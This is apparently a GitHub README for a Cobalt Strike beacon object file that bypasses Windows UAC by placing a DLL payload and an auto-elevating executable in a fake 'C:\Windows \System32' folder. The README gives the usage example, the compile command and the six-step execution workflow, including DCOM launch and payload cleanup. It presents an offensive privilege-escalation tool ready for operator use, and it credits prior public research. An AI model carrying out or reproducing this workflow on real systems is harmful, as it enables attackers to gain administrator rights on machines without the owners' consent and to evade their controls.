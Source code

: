 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Use DCOM to execute "C:\Windows \System32\<desired executable>"
Step 6: Delete the DLL payload on "C:\Windows\Tasks"
================================================================================

Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**
@David Wells and @Wietze for excellent research
https://medium.com/tenable-techblog/uac-bypass-by-mocking-trusted-directories-24a96675f6e
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation
https://github.com/Yaxser/CobaltStrike-BOF/tree/master/DCOM%20Lateral%20Movement
